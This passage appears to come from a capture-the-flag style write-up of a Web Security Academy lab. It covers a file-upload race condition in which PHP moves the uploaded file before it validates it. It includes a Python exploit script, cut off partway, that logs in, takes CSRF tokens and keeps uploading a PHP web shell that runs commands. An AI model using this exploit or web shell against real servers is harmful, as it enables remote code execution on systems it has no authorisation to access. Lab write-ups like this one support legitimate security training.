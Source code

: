 ```php
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

The problem with the code above is that **it moves the file before checking it**.

This means that for a brief period, the file is available on the website, and it can be used for code execution BEFORE it is removed via `unlink`. 

This means I don't have to even use a NULL byte. Even if the website tells me the file upload failed, the file is still present on the website for a brief moment.

Using 2 Python scripts to exploit this race condition is the easiest.

There are 2 scripts needed, one to continuously upload a `cmd.php` file, and one that keeps trying to read the secret:

```python
### FILE 1
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a5500ad03051e6f825cf21700d100c3'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()
filename = 'cmd.php'

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)
print("[+] Login worked")
while True:
	profile_r = s.get(url + '/my-account?id=wiener')
	match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
	upload_csrf_token = match[1]

	file = {
		'avatar':(filename, "<?php system($_REQUEST['cmd']); ?>", "application/x-php")
	}

	form_data = {
		'user':'wiener',
		'csrf':upload_csrf_token
	}
```